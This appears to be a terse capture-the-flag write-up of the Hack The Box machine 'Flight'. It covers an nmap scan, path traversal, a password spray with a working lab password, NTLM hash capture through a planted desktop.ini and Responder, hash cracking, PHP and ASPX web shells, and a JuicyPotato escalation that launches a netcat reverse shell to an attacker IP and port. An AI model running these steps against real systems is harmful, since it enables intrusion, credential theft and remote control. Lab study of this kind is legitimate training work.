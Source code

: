 Nmap scan report for 10.10.11.187
Host is up (0.15s latency).
Not shown: 990 filtered tcp ports (no-response)
PORT    STATE SERVICE       VERSION
53/tcp  open  domain        Simple DNS Plus
80/tcp  open  http          Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
|_http-title: g0 Aviation
| http-methods: 
|   Supported Methods: OPTIONS HEAD GET POST TRACE
|_  Potentially risky methods: TRACE
88/tcp  open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-11-18 17:33:04Z)
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: flight.htb0., Site: Default-First-Site-Name)
445/tcp open  microsoft-ds?
464/tcp open  kpasswd5?
593/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp open  tcpwrapped
Service Info: Host: G0; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: 6h57m51s
| smb2-time: 
|   date: 2022-11-18T17:33:20
|_  start_date: N/A

NSE: Script Post-scanning.



## subdomain found 

flight.htb
school.flight.htb


##
path traversal
exits but it was blocked with canonical ../ we can see the index.php


file:/// works without problem




in school parameter view = ssrf 



find an interesting file trought the path traversal in http://school.flight.htb/index.php?view=file:////xampp/php/php.ini


in upload section :

```
;;;;;;;;;;;;;;;;
; File Uploads ;
;;;;;;;;;;;;;;;;

; Whether to allow HTTP file uploads.
; https://php.net/file-uploads
file_uploads = On

upload_tmp_dir = "\xampp\tmp"


```

So if i upload something then it's upload on /xamp/tmp!



no can execute things couse it's file_get_contents() not include()!





```crackmapexec smb flight.htb -u users.txt -p 'S@Ss!K@*t13' --continue-on-success                                                                                                     2 ⨯
/usr/lib/python3/dist-packages/pywerview/requester.py:144: SyntaxWarning: "is not" with a literal. Did you mean "!="?
  if result['type'] is not 'searchResEntry':
SMB         flight.htb      445    G0               [*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         flight.htb      445    G0               [-] flight.htb\O.Possum:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         flight.htb      445    G0               [+] flight.htb\svc_apache:S@Ss!K@*t13 
SMB         flight.htb      445    G0               [-] flight.htb\V.Stevens:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         flight.htb      445    G0               [-] flight.htb\D.Truff:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         flight.htb      445    G0               [-] flight.htb\I.Francis:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         flight.htb      445    G0               [-] flight.htb\W.Walker:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         flight.htb      445    G0               [-] flight.htb\C.Bum:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         flight.htb      445    G0               [-] flight.htb\M.Gold:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         flight.htb      445    G0               [-] Connection Error: The NETBIOS connection with the remote host timed out.
SMB         flight.htb      445    G0               [-] flight.htb\G.Lors:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         flight.htb      445    G0               [-] flight.htb\R.Cold:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         flight.htb      445    G0               [+] flight.htb\S.Moon:S@Ss!K@*t13 
SMB         flight.htb      445    G0               [-] flight.htb\krbtgt:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         flight.htb      445    G0               [-] flight.htb\Guest:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         flight.htb      445    G0               [-] flight.htb\Administrator:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
                                                                                                                     
```


Password Spray give us 2 positive results! go with S.Moon with smb






## Responder 


With kerberos fail auth we can take a ticket with responder ! 




hash of c.bum:

create a desktop.ini
echo "[.ShellClassInfo]" > desktop.ini
echo IconResource=\\IP\aa >> desktop.ini

upload on \\Shared

smbmap -H flight.htb -u S.MOON -p 'Password' --upload desktop.ini Shared\\desktop.ini\\

responder -I tun0 -v 

after that hashcat -m 5600 hashes.txt rockyou.txt


CRAKED

c.bum:Tikkycoll_431012284


## SHELL

smbclient.py 'flight.htb/c.bum:Tikkycoll_431012284@10.10.11.187' 


Use web share!

go on school.flight.htb and upload a php reverse shell created with msfvenom couse landum is for linux system only


then upload with put command


and call it on the webpage to trigger!




##


SVC to c.bum with runas !



`runas.exe c.bum password powershell -r IP:PORT`







netstat -an reveals a local service in 8000 


so chisel 


upload a shell.aspx in C:\inetpub\development 


and we are iis apppool\defaultapppool



```
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```








SeImpersonatePrivilege --> JuicyPotato 




so upload nc & juicypotato



and with 


```icacls nc.exe /grant Users:F   allow iispool to impersante token
icacls jp.exe /grant Users:F 
```

```jp.exe -t * -p "nc.exe" -a "IP PORT -e cmd.exe"







